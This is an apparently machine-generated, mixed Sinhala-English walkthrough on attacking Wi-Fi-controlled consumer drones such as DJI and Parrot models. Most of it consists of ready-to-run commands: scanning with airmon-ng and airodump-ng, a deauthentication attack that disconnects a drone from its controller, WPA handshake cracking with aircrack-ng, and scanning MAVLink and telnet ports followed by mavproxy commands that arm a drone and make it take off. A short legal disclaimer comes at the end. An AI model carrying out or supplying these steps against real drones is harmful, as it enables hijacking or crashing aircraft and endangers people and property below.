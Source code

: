 Wi-Fi adapter එකක් භාවිතා කරලා **Wi-Fi-controlled drones** scan කරලා, එයට attack කරලා exploit කිරීමක් කළ හැක. මේක **Wi-Fi Hacking + MAVLink Attacks** එකට සම්බන්ධයි.  

---

## **🔍 Step 1: Drone එක Scan කිරීම (Wi-Fi Hunting)**  
Wi-Fi adapter එක **monitor mode** එකට set කරලා nearby drones scan කළ හැක.  

### **1️⃣ Enable Monitor Mode (Linux/Kali)**  
```bash
airmon-ng start wlan0
```
- **`wlan0mon`** (new interface) යනු monitor mode වල ඇති Wi-Fi adapter එකයි.

### **2️⃣ Scan for Drone Wi-Fi Signals**
```bash
airodump-ng wlan0mon
```
> **Common Drone Wi-Fi Names:**  
> - **DJI drones** → `DJI_xxxxxx`  
> - **Parrot drones** → `Parrot_xx`  
> - **Other Drones** → `Drone_xx`, `FPV_xx`, `UAV_xx`  

### **3️⃣ Find the Drone’s Channel & BSSID**
Once the drone's Wi-Fi is detected, note its:  
- **BSSID (MAC Address)**  
- **Channel (CH)**  

```bash
airodump-ng -c <CHANNEL> --bssid <BSSID> -w drone_capture wlan0mon
```

---

## **📡 Step 2: Drone Exploitation Methods**  

### **🔥 Method 1: Wi-Fi Deauthentication Attack (Kick the Controller Off)**  
```bash
aireplay-ng -0 0 -a <BSSID> wlan0mon
```
- This will disconnect the drone from its controller.
- If the drone has no return-to-home feature, it may hover or land.

### **🔥 Method 2: Wi-Fi Password Cracking**  
If the drone is using **WPA/WPA2 encryption**, capture the handshake:  
```bash
airmon-ng start wlan0
airodump-ng -c <CHANNEL> --bssid <BSSID> -w drone_wifi wlan0mon
```
After capturing the handshake, use brute force:  
```bash
aircrack-ng -w rockyou.txt -b <BSSID> drone_wifi.cap
```
Once cracked, connect to the drone’s Wi-Fi and control it via mobile apps or MAVProxy.

### **🔥 Method 3: MAVLink Exploits (If Open Ports Exist)**  
After connecting to the drone’s Wi-Fi, scan for open MAVLink ports:  
```bash
nmap -p 23,80,14550,5555 <DRONE_IP>
```
If port `14550` is open (MAVLink), take control:  
```bash
mavproxy.py --master=udp:<DRONE_IP>:14550
```
```bash
mode GUIDED
arm throttle
takeoff 10
```
> **If Port 23 (Telnet) is open:**  
```bash
telnet <DRONE_IP>
```
> - Some Parrot drones allow remote access with **default credentials**.

---

## **⚠️ Legal Warning**  
🚨 **Unauthorized access to a drone is illegal in most countries.**  
මෙය **CTF challenges, cybersecurity research, and ethical pentesting** සඳහා පමණක් භාවිතා කරන්න. Unauthorized hacking **FAA, FCC, GDPR laws වලට එරෙහි වේ**.  

##### **මොනට Ethical Drone Hacking / Cybersecurity Research කරන්න පුළුවන්ද?** 🚀
